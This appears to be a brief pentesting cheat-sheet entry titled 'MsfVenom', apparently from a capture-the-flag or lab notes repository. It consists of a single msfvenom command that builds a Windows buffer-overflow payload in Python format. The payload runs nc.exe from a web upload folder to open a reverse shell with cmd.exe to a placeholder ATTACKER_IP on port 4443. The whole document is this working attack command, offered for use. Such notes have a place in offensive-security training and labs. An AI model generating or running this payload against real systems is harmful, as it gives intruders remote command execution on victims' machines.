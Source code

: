 # MsfVenom

Windows Python BOF payload
---
```console
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe -e cmd.exe ATTACKER_IP 4443' -b '\x00\x0a\x0d' -f py -v payload
```

